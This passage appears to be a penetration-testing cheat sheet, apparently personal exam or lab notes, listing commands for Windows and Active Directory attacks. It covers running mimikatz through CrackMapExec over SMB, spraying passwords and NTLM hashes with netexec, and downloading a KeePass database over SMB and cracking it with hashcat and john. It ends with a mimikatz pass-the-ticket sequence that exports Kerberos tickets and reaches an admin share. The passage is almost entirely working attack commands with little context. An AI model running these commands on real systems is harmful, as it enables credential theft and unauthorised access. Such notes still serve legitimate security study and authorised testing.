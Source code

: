 ```powershell

#crackmapexec modules
crackmapexec smb -L #listing modules
crackmapexec smb -M mimikatx --options #shows the required options for the module
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz #runs default command
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz -o COMMAND='privilege::debug' #runs specific command-M 
```

- Crackmapexec database

```bash
cmedb #to launch the console
help #run this command to view some others, running individual commands give infor on all the data till now we did.
```
### netexec
Similar to Crackmap it's archived <a href="https://www.netexec.wiki/getting-started/target-formats">Netexec wiki</a>
```
netexec <protocol> ~/targets.txt
netexec <protocol> <target(s)> -u username1 -p password1 password2
netexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes
sudo nxc smb <TARGET> -k -u USER -p PASS
```
### kpcli - keepass massword manager
Found the Database.kdbx file in the smb enumeration
```
smbclient -L \\<TARGET>
smb shell> smb: \DB-back (1)\New Folder\Emma\Documents\> get Database.kdbx
keepass2john Database.kdbx > keepass.hash
hashcat -m 13400 keepass.hash  /home/kali/HTB/OSCP/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule (#Password - welcome)
john keepass.hash(#Password - welcome)
```
Cracking the Kdbx file with kpcli
```
>kpcli --kdb=Database.kdbx (#Password - welcome)
>ls
>cd Databases
>cd Windows
>show emma
#Password show in hide RED, select with mouse it will unhide multiple times. 
```

### Pass the ticket

```powershell
.\mimikatz.exe
sekurlsa::tickets /export
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<RHOST>.LOCAL.kirbi
klist
dir \\<RHOST>\admin$
```
